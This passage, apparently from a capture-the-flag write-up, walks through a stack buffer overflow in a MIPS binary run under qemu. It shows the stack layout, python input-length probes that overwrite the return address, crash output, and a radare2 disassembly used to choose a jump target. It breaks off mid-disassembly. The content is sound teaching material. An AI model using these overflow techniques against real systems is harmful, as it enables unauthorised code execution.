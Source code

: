 Stack layout can be represented as following (I prefer left-to-right 
layout instead of top-to-bottom because it is more natural for me and 
can give clearer view on what is going on when we write to the buffer 
and beyond it's boundaries):

     sp[0]            sp[28]          sp[288]    sp[292]   sp[296]
     buf[-28]         buf[0]          buf[260]   buf[264]  buf[268]
     -------------------------------------------------------------------------
    | char dummy[28] | char buf[260] |    fp    |    ra   | <caller's locals> | ...
     -------------------------------------------------------------------------

Do check our suggestions (remember that `scanf()` also writes 
NULL-termination character to the end of the buffer, so actual number 
of written bytes are one plus size of input):

    $ python -c "print('A'*261)" | qemu-mipsel ./bof
    Cauliflower systems never crash >>
    $ python -c "print('A'*263)" | qemu-mipsel ./bof
    Cauliflower systems never crash >>
    $ python -c "print('A'*264)" | qemu-mipsel ./bof
    Cauliflower systems never crash >>
    Cauliflower systems never crash >>
    $ python -c "print('A'*265)" | qemu-mipsel ./bof
    Cauliflower systems never crash >>
    qemu: uncaught target signal 4 (Illegal instruction) - core dumped
    Illegal instruction
    .........

Wow, it seems like writing to `fp` does not cause any problems. I think 
it is because caller of `main()` does not use this value (his stack 
pointer).
But look, writing to `ra` leads to some weird results. It is because 
program jumps to some strange address of memory which contains byte 
trash and not the working code.

Now let's think what jumping address can be of our interest. It is very 
desirable to jump to `0x004009d4`, for example, so execution flow 
enters function `sym.local_flag`, which is obviously our goal.
The problem is, this address contains byte `0x09` which in fact is 
`'\t'` whitespace character and `scanf()` will replace it with `'\0'` 
and stop reading. We need address that do not contain any whitespace 
character, and not contain '\0' (except at the end, or in the high 
bytes). Let's look into `sym.local_flag` itself:

    [0x00400530]> pdf@sym.local_flag
    / (fcn) sym.local_flag 84
    |   sym.local_flag (int32_t arg1, int32_t arg_10h);
    |           ; arg int32_t arg_10h @ fp+0x10
    |           ; var int32_t var_10h @ sp+0x10
    |           ; var int32_t var_18h @ sp+0x18
    |           ; var int32_t var_1ch @ sp+0x1c
    |           ; arg int32_t arg1 @ a0
    |           ; CALL XREF from main (0x4009e0)
    |           0x00400840      0b001c3c       lui gp, 0xb                 ; loads a 16-bit immediate operand into the upper 16-bits of the register specified.
    |           0x00400844      30819c27       addiu gp, gp, -0x7ed0       ; add sign-extended constants (or copy one register to another: addi $1, $2, 0)
    |           0x00400848      21e09903       addu gp, gp, t9             ; adds two registers
    |           0x0040084c      e0ffbd27       addiu sp, sp, -0x20         ; add sign-extended constants (or copy one register to another: addi $1, $2, 0)